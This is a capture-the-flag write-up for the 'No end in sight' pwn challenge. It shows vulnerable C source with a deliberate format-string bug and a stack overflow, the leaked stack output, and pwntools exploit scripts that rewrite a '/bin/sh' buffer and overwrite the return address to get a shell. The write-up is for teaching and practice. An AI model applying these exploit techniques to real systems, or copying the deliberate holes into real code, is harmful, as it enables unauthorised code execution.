


# No end in sight
<p align="center">
  
</p>

## FLAG:
`GPNCTF{Th4nks_f0r_sav1ng_my_pr3ci0us_/bin/sh}`

## Solution
The challenge provides the following source code in the [attachment](Attachments/no-end-in-sight.tar.gz):

```c
#include <stdio.h>
#include <stdlib.h>

// gcc -no-pie -fno-stack-protector -o no-end-in-sight no-end-in-sight.c

char BINSH[8] = "/bin/sh";

void shutoff() {
	execve(&BINSH, NULL, NULL);
}

int main() {
	char buf[0xff];
	fgets(buf, 0xff, stdin);

	BINSH[0] = 0;
	printf(buf);
	
	fgets(buf, 0x110, stdin);
	return 0;
}
```

The challenge provides for the insertion of 2 inputs which are saved in the same buffer exceeding its real size and this leads to overwriting memory areas that do not belong to those allocated for the buffer (which has a fixed size). Furthermore, the first input is shown on the screen via *printf* and this suggests the possibility of *format string* with the possibility of reading the stack. Also, the goal of my challenge is to run the `shutoff` function to execute the command saved in the `BINSH` buffer, whose first character, however, is overwritten with a null byte. 

To solve the challenge we first try to exploit the *format string* and to verify its presence we send the following payload: `%p %p %p %p %p %p %p %p`

```bash
└─$ ./no-end-in-sight 
%p %p %p %p %p %p %p %p 
0x12a62a1 0xfbad2288 0x1 0x12a62b8 0x21001 0x7025207025207025 0x2520702520702520 0xa70252070252070
```

So we can use the format string to go and redefine the contents of the *BINSH* buffer, however we need to understand what is the offset starting from which the format string takes effect. To do this we add an input to the previously illustrated payload so as to understand after what we display it.

```bash
└─$ ./no-end-in-sight
AAAAAAAA %p %p %p %p %p %p %p %p
AAAAAAAA 0x121e2a1 0xfbad2288 0x1 0x121e2c1 0x21001 0x4141414141414141 0x2520702520702520 0x2070252070252070
```

Using the information obtained, I wrote a script using the `fmtstr_payload` method of *pwntools* to create the payload which will correctly set the contents of *BINSH*.

```python
from pwn import *

if args.REMOTE:
    p = remote('no-end-in-sight-0.chals.kitctf.de', 1337, ssl=True)
else:
    p = process("./no-end-in-sight")
    if args.GDB:
        gdb.attach(p, gdbscript="""
            break main
        """)

if args.DEBUG:
    p = gdb.debug("./no-end-in-sight")

exe = context.binary = ELF("./no-end-in-sight", checksec=False)

payload = fmtstr_payload(6, {exe.symbols.BINSH: b"/bin/sh"})
p.sendline(payload)

p.interactive()
```

At this point it is necessary to understand after how many characters the return address is overwritten. To figure this out we use *pwntools* once again with the ability to run gdb and then with the `cyclic` command figure out the correct number of characters.

<p align="center">
  
</p>

To automate what has been said, the following [script](Attachments/solve.py) was created.

```python
from pwn import *

if args.REMOTE:
    p = remote('no-end-in-sight-0.chals.kitctf.de', 1337, ssl=True)
else:
    p = process("./no-end-in-sight")
    if args.GDB:
        gdb.attach(p, gdbscript="""
            break main
        """)

if args.DEBUG:
    p = gdb.debug("./no-end-in-sight")

exe = context.binary = ELF("./no-end-in-sight", checksec=False)

payload = fmtstr_payload(6, {exe.symbols.BINSH: b"/bin/sh"})
p.sendline(payload)

payload = b"A" * 264 + p64(exe.symbols.shutoff)
p.sendline(payload)

p.interactive()
```
